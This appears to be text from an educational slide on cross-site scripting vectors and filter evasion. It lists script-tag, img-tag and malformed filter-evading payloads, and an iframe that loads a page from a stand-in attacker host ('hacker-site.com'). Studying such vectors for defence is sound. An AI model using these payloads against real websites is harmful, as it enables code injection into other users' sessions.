

# VARIOUS XSS VECTORS AND FILTER EVASION
<script>alert(1)</script> is the most basic payload which can be used for XSS attacks.Since it is widely used majority of websites deploy filters to prevent these from execution.
In such cases other payloads which use vectors like <img> tag <body> tag <iframe> tag are used.<img src =javascript:alert(“XSS”);><img """><script>alert("XSS")</script>">
This payload to evade filters which filter inputs starting with <script> tag<iframe src=”http://hacker-site.com/xss.html”>
 Here the url can be replaced by a webserver hosted on our machine and whenever a front end user makes use of the iframe tag he gets directed to the malicious website and we code can be injected.